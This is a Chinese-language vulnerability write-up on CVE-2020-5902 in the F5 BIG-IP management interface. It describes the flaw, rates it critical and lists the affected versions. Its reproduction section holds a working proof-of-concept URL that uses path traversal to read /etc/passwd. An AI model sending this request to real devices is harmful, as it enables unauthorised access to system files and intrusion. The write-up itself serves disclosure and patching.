 

CVE-2020-5902

=============



漏洞描述

----



      2020年7月1日，F5官方公布流量管理用户界面（TMUI）存在前台远程执行代码（RCE）漏洞（CVE-2020-5902）。攻击者利用该漏洞，可以构造恶意请求，在未授权的情况下获得目标服务器的权限，实现任意远程代码执行。



     F5 BIG-IP流量管理用户界面（TMUI）的未公开界面中存在远程代码执行漏洞。该漏洞允许未授权的攻击者或授权用户通过BIG-IP的管理端口或自身IP执行任意系统命令，增删文件，停止服务，或执行任意java代码。该漏洞将导致严重的系统危害，服务器可能被攻击者完全控制，BIG-IP设备也存在此漏洞。



漏洞危害等级

------



**严重**



影响版本

----



*   F5 BIG-IP < 15.1.0.4

*   F5 BIG-IP < 14.1.2.6

*   F5 BIG-IP < 13.1.3.4

*   F5 BIG-IP < 12.1.5.2

*   F5 BIG-IP < 11.6.5.2



漏洞复现

----



### **任意文件读取POC**



```
https://xx.xx.xx.xx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```




![](https://img-blog.csdnimg.cn/20200707141323985.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
